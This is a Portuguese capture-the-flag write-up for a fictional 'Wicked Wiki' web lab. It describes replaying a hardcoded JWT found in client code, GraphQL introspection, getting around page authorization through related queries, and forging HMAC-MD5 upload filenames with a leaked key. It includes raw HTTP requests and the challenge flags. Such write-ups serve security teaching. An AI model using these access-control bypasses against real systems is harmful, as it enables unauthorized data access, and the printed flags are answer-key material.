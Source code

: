 # Trilha de Desafios ~ Wiked Wiki

## Talk is Cheap, Show Me the Code!

Ao utilizar as *Ferramentes de Desenvolvedor*, podemos analisar o código fonte *JavaScript* da página inicial e localizar o seguinte arquivo `index.js`:

```javascript
... 

const FLAG = "TAC{98df942e78b89d3941e9767e73cba98c31ab7e3c40f3b7694d44aa6358385ce9}"

const client = new ApolloClient({
  uri: '/graphql',
  cache: new InMemoryCache(),
});

... 

// @TODO fix Auth
// const httpLink = createHttpLink({
//   uri: '/graphql',
// });

// const authLink = setContext((_, { headers }) => {
//   // get the authentication token from local storage if it exists
//   const token = localStorage.getItem('token');
//   // return the headers to the context so httpLink can read them
//   return {
//     headers: {
//       ...headers,
//       authorization: token ? `Bearer ` : "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjUiLCJuYW1lIjoiQWxleGFuZGVyIEhhcnJpc29uIiwidXNlcm5hbWUiOiJhbGV4X2hhcnJpc29uIiwiZW1haWwiOiJhbGV4YW5kZXIuaGFycmlzb25Ad2lja2VkY29ycC5jb20iLCJyb2xlIjp7ImlkIjoiMSIsIm5hbWUiOiJFbXBsb3llZSJ9LCJpYXQiOjE3MDAwOTA0MDR9.gwBdNrw9jHvpABrwni4xeuc1koycKh39l5xmJUyZ7SE",

...
```

Nele conseguimos obter as seguintes informações:

- A presença de uma API GraphQL no path `/graphql`;
- Um *token* de autorização JWT presente no código comentado;
- A flag do desafio.

- **Flag:** `TAC{98df942e78b89d3941e9767e73cba98c31ab7e3c40f3b7694d44aa6358385ce9}`

## Security Inspection

Sabendo que se trata de uma API GraphQL, é possível verificar que o mecanismo de *Introspection* encontra-se habilitado. Ao utilizar tal mecanismo, o jogador será capaz de obter todas as *queries* disponíveis para serem utilizadas. A imagem a seguir ilustra o *Schema* da API utilizando a ferramenta *GraphQL Voyager*:

![](./images/WICKED_WIKI_Schema_Graphql.png)

Ao tentar realizar consultas para alguma *query*, por exemplo `roles`, percebemos que a aplicação responde com a mensagem: "You are not authorized to see this page.". Para evitar, tal mensagem, precisamos utilizar o *token* obtido no desafio anterior e enviar, junto das nossas requisições HTTP, o seguinte cabeçalho:

```http
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjUiLCJuYW1lIjoiQWxleGFuZGVyIEhhcnJpc29uIiwidXNlcm5hbWUiOiJhbGV4X2hhcnJpc29uIiwiZW1haWwiOiJhbGV4YW5kZXIuaGFycmlzb25Ad2lja2VkY29ycC5jb20iLCJyb2xlIjp7ImlkIjoiMSIsIm5hbWUiOiJFbXBsb3llZSJ9LCJpYXQiOjE3MDAwOTA0MDR9.gwBdNrw9jHvpABrwni4xeuc1koycKh39l5xmJUyZ7SE
```

Com isso, conseguimos obter acesso completo a quase todas as consultas e encontrar a *flag* na *query* *development*

```http
POST /graphql HTTP/1.1
Host: localhost:4001
Content-Length: 40
content-type: application/json
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjUiLCJuYW1lIjoiQWxleGFuZGVyIEhhcnJpc29uIiwidXNlcm5hbWUiOiJhbGV4X2hhcnJpc29uIiwiZW1haWwiOiJhbGV4YW5kZXIuaGFycmlzb25Ad2lja2VkY29ycC5jb20iLCJyb2xlIjp7ImlkIjoiMSIsIm5hbWUiOiJFbXBsb3llZSJ9LCJpYXQiOjE3MDAwOTA0MDR9.gwBdNrw9jHvpABrwni4xeuc1koycKh39l5xmJUyZ7SE
Connection: close

{"query": "query {\n    development\n}"}
```

```http
HTTP/1.1 200 OK
X-Powered-By: Express
cache-control: no-store
Content-Type: application/json; charset=utf-8
Content-Length: 249
ETag: W/"f9-/OI0CqwBVA23X/BhP9bHaTjTOWY"
Date: Sun, 26 Nov 2023 22:26:10 GMT
Connection: close

{"data":{"development":"{\"status\":\"ok\",\"version\":\"develop-0.9.2\",\"flag\":\"TAC{69763c166cc0fcff891ceb609ccc0d550539272910c247a2ade9aeb1fec4737d}\",\"filenameHmacKey\":\"4d7be1d49d435b689c1e9f909cdcd4d0266674dbc56191d0178d6264ff87a937\"}"}}

```

Note que, além da flag, também é possível obter um ***filenameHmacKey***, que será útil nos desafios posteriores.

- **Flag**: `TAC{69763c166cc0fcff891ceb609ccc0d550539272910c247a2ade9aeb1fec4737d}`

## Pathfinder

Após configurar o cabeçalho *Authorization*, podemos notar que a *query* *page*, que recebe como parâmetro o ID de uma página, ainda retorna a mensagem de acesso não autorizado. Vamos então análisar o conteúdo do *token* JWT:

```json
{
  "id": "5",
  "name": "Alexander Harrison",
  "username": "alex_harrison",
  "email": "alexander.harrison@wickedcorp.com",
  "role": {
    "id": "1",
    "name": "Employee"
  },
  "iat": 1700090404
}
```

Podemos perceber, que o *token* pertence ao usuário Alexander Harrison. Podemos buscar então, utilizando a query *pages*, alguma página que o mesmo seja o autor e verificar se o mesmo possui acesso:

![](./images/WICKED_WIKI_Query_Pages.png)

Note que a página de id 29 foi criada pelo usuário que estamos interessando, a imagem a seguir ilustra a tentativa de consultar o conteúdo da página 29:

![](./images/WICKED_WIKI_Query_Page_29.png)

Sucesso! Encontramos uma página em que é possível obter seu conteúdo sem ser bloqueado pelo sistema. 

Para finalizar, analisando novamente o *schema* demonstrado na ferramenta Voyager, note que existem dois caminhos para acessar uma página:

- Consultando diretamente pelo seu ID, por meio da query `page(id: $ID)`; ou
- Acessando indiretamente por meio de outra página, por meio da relação **page -> categories -> pages**.

Note que, no segundo caso, é preciso contar com a sorte de que as páginas que desejamos alcançar possuam categorias em comum com alguma página que já possuamos acesso inicial (que será o nosso caso). Logo, a imagem a seguir exibe a query utilizada para realizar a obtenção da flag:

![](./images/WICKED_WIKI_Flag.png)

```json
{"id":"26","title":"Aviso de Desligamento de Funcionário - Natalie Walker","content":"\nAviso de Desligamento de Funcionário - Natalie Walker:\n\n**Motivos para o Desligamento:**\n1. Violação de Acordos de Não Divulgação (NDA): Natalie Walker quebrou acordos de confidencialidade, representando um risco significativo para os interesses da empresa.\n2. Menosprezo à Cultura da Empresa: Engajamento em comportamentos prejudiciais a um ambiente de trabalho positivo e inclusivo.\n3. Insubordinação: Falha em seguir instruções gerenciais e diretrizes da empresa.\n4. Ameaças Legais: Fazer ameaças de ação legal contra a empresa.\n\nEsta decisão segue uma investigação minuciosa e uma consideração cuidadosa dos fatos. Desejamos a Natalie Walker sucesso em seus empreendimentos futuros.\n\nAnexo: [Offboard_Natalie.pdf](http://{baseUrl}/uploads/67404be69188a4a930213d5987903591.pdf)","hasAttachment":true,"flag":"TAC{454368a6cdfa4fa069627495d2da909f691de7398e04bd71879719c256aaf99a}"},
```

- **Flag:** `TAC{454368a6cdfa4fa069627495d2da909f691de7398e04bd71879719c256aaf99a}`

## Digital Signatures

Analisando o conteúdo da página em que obtemos a flag anterior, é possível reparar a presença de um *link* para download do seguinte arquivo PDF:

```md
[Offboard_Natalie.pdf](http://{baseUrl}/uploads/67404be69188a4a930213d5987903591.pdf)
```

Revisitando as demais *queries* presentes na API, vamos analisar novamente a resposta retornada ao solicitarmos os *assets* da aplicação:

![](./images/WICKED_WIKI_Query_Assets.png)

Note que no atributo *downloadLink* podemos encontrar a seguinte expressão: `${uploadPath}/${computeFilename($filename,$key)}.${getFileExt($filename)}`.

Além disso, lembre-se que foi possível obter uma chave Hmac na resposta da *query* *development*, sendo ela:

```json
{"filenameHmacKey":"4d7be1d49d435b689c1e9f909cdcd4d0266674dbc56191d0178d6264ff87a937"}
```

Logo, juntando todas as peças e analisando a *hash* `67404be69188a4a930213d5987903591`, podemos concluir que a aplicação utilizou uma função **HMAC MD5** aplicada no nome do arquivo para armazená-lo no servidor. 

Por fim, aplicando a mesma mesma função no nome do arquivo **New_Culture_Manifest.pdf**, conseguimos construir o *link* em que o segundo PDF se encontra:

- `http://{basePath}/uploads/e5db2d584ea0659eaafe34104861c40b.pdf`

- **Flag:** `TAC{dd11af7b65881444c4611d5bd2d3e6972ab9be46b682bff71c5c2140b89a3d17}`

## Bonus: Company Values

A última *flag* encontra-se no mesmo PDF do desafio anterior. Para encontrá-la, o jogador deverá perceber que o PDF possui uma segunda página em branco e que nela possui trechos de texto também escritos em branco. Ao copiar e colar o conteúdo do PDF em um bloco de notas é possível obter a flag.

- **Flag:** `TAC{6a2e8e751076217efdacdbba739fef5fddcfa8d5c7a3c0e2c83baa16aacff09d}`